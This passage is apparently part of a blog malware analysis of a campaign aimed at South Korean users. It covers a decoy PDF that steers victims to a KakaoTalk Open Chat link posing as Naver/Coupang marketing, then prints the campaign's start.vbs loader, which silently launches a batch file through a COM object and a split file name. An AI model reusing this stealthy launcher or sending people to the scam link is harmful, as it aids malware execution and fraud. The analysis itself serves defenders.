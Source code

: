 So, what’s the deal? Let’s break it down.

### What’s KakaoTalk?

If you’re not in South Korea, you might not know **KakaoTalk**. It’s *the* messaging app there—like WhatsApp or Telegram on steroids. Everyone uses it for texts, calls, photos, you name it. Owned by Kakao Corp, it’s a cultural staple.

### What’s This KakaoTalk Link?

That link ([https://open.kakao.com/o/ssRLGYoh](https://open.kakao.com/o/ssRLGYoh)) takes you to a **KakaoTalk Open Chat** room. Open Chat lets you join public or semi-anonymous chats without sharing your phone number or ID. Super handy for meeting strangers or joining groups—and perfect for stuff like this.

The chat room’s called **“네이버 쿠팡 온라인 스토어 전문 마케터”**, which means **“Naver Coupang Online Store Marketing Professional”** in English. Here’s a peek at it:

![KakaoTalk Chat](/assets/images/blog1/image 11.png)

### Why’s It So Sketchy?

This PDF is straight-up trickery. Dropping **Naver** and **Coupang** in the chat name? That’s no accident. These are South Korea’s tech titans:
- **Naver**: Their Google, with search, blogs, maps, shopping—everything.
- **Coupang**: The Amazon of South Korea..


### TLDR;

The PDF’s a fake-out, looking like a marketing proposal to keep you busy. That KakaoTalk link, tied to Naver and Coupang, is pure social engineering to pull you deeper into the scam—maybe more malware, maybe data theft. Meanwhile, the real attack’s happening behind the scenes with VBS and batch files.

## Stage 4: start.vbs (The Quiet Trigger)

This VBScript, at `C:\Users\Public\Documents\start.vbs`, silently moe to the next stage:

```vbscript
set obj = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
set itemObj = obj.Item()
HBKQFDDzINedWTqt = Left(WScript.ScriptFullName, InstrRev(WScript.ScriptFullName, "\") - 1)
itemObj.Document.Application.ShellExecute HBKQFDDzINedWTqt & "\" & "60901024" & ".b" & "at", Null, HBKQFDDzINedWTqt, Null, 0
set obj = Nothing
```

### What’s It Do?

- Open up a `Shell.Explorer` ActiveX object (basically Internet Explorer’s engine).
- Grabs the script’s folder path.
- Runs `60901024.bat` quietly (no console window, because of that `0`).
- Cleans up.

